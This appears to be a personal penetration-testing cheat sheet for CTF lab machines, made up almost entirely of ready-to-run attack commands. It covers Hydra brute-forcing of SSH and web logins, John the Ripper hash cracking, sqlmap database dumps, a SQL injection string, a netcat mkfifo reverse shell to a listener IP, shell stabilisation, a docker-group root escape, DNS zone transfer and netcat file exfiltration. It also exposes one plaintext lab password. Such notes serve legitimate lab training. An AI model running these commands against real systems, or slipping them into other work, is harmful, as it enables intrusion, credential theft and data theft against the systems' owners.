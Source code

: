 ### Nmap
`nmap -sC -sV 10.10.105.34`
`nmap --script vuln ip -vv`
### No ICMP
`nmap -Pn 10.10.105.34`

### Generates hash for /etc/passwd(user should already exist)
`openssl passwd -1`

### for /etc/shadow
`mkpasswd -m sha-512 password`
`snap run john-the-ripper --wordlist=~/rockyou.txt hash`

### John
`/snap/bin/john-the-ripper.gpg2john`
`./zip2john 8702.zip > hash`  
`ssh2john.py id_rsa`

### Awk
`awk 'length($0)==10' rockyou.txt`

### Stegography 
`steghide extract -sf`
`stegcracker cute-alien.jpg ~/rockyou.txt`

### Hydra
`hydra -l <username> -P <path to wordlist> <IP> ssh`
`hydra -l molly -P rockyou.txt 10.10.57.111 http-post-form "/login:username=molly&password=^PASS^:incorrect" -V`

### Reminder
`nikto`

### Wfuzz
`wfuzz -c -z file,dates.list -d "date=FUZZ" -u http://10.10.181.57/site-log.php --hc 404`

`sshpass -p !4u2tryhack ssh username@host.example.com`

### Words on web page
`cewl`  

### Sqlmap
`sqlmap -r req.txt -p blood_group -D blood --dump-all`
`sqlmap -r burp.txt --tamper=space2comment --dump-all --dbms sqlite`

### Stable rev shell
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.3.125 4444 >/tmp/f`

### Stabilize shell
`python3 -c "import pty;pty.spawn('/bin/bash')"`
`export TERM=xterm`
`//CTRL + Z to background`
`stty raw -echo;fg` 

### If docker in groups (may help may not)
`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

### Disclose subdomains(@dns-server)
`dig axfr hipflasks.thm @10.10.113.230`

### Mount samba share under username
`sudo mount -t cifs -o username=ubuntu //10.10.7.87/sambashare /media/samba`

### Simple SQLi
`' OR '1'='1' --`

### SQL list
https://github.com/payloadbox/sql-injection-payload-list.git

### NFS
`showmount --exports 10.10.41.139`
`mount 10.10.41.139:/opt/conf /media/nfs`

### Rsync
`rsync --list-only rsync://rsync-connect@10.10.41.139`

### GPG
`gpg --import key.asc`
`gpg --decrypt file.pgp`

### Samba
`smbclient -NL 10.10.215.0`
`smbclient -N //10.10.215.0/VulnNet-Enterprise-Anonymous`

### Netcat recv and send
`nc -q 1 -l -p 7777 > runme`
`nc -q 1 10.9.3.125 7777 < /home/catlover/runme`

### Openssl & GPG
`openssl aes-256-cbc -pbkdf2 -iter 10000 -e -in message.txt -out encrypted_message`
`openssl aes-256-cbc -pbkdf2 -iter 10000 -d -in encrypted_message -out original_message.txt`

`gpg --symmetric --cipher-algo CIPHER message.txt`
`gpg --output original_message.txt --decrypt message.gpg`

### Subdomains search (i.e. *(www|admin).site.com)
`ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://FUZZ.site.com -fw 1`

### Upgrade to bash ([READ](https://0xffsec.com/handbook/shells/full-tty/))
`SHELL=/bin/bash script -q /dev/null`

### Listen for ICMP activity
`sudo tcpdump -i eth0 icmp`

### exiftool privesc
https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-exiftool-privilege-escalation/
